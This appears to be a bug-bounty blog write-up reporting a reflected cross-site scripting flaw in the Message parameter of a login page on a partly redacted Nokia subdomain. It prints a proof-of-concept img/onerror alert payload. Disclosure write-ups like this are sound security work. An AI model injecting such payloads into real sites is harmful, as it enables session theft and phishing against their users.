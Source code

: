 ```yaml
---
title: Reflected XSS vulnerability in Nokia subdomain website
author: khafagy
date: 2023-01-04 10:32:00 -0500
categories: [Bug Hunter]
tags: [Bug Hunter, XSS]

---
```

![image](https://raw.githubusercontent.com/5afagy/5afagy.github.io/main/assets/image/image29.png)

Hello, Hackers <br>
Welcome to my write-up of **Nokia** Hacked with RXSS Vulnerability<br>
This time **Nokia** is my target<br>
I started from FUZZ<br>
And I discovered this URL: `https://xxx-xxxx.nokia.com/xxxx/xxxx/LoginTemplate.jsp?Message=Session Timed out Please Login Again`<br>
As you can see the Message parameter says ‘Session Timed out. Please Login Again’
<br> <br>
![image](https://raw.githubusercontent.com/5afagy/5afagy.github.io/main/assets/image/image22.png)
<br> <br>

### LOOK THIS: ###<br>
Simply I entered script tag into the message parameter
like this` <img src=xxx:x onerror=javascript:alert("Hacked_By_KHAFAGY")>Khafagy_Was_Here`

![image](https://raw.githubusercontent.com/5afagy/5afagy.github.io/main/assets/image/image21.png)
<br> <br>

### After Exploit: ###
![image](https://raw.githubusercontent.com/5afagy/5afagy.github.io/main/assets/image/image20.png)


<br><br>
![image](https://media.tenor.com/images/a29c7b457e4b2384b42e4a7ae48f554b/raw)
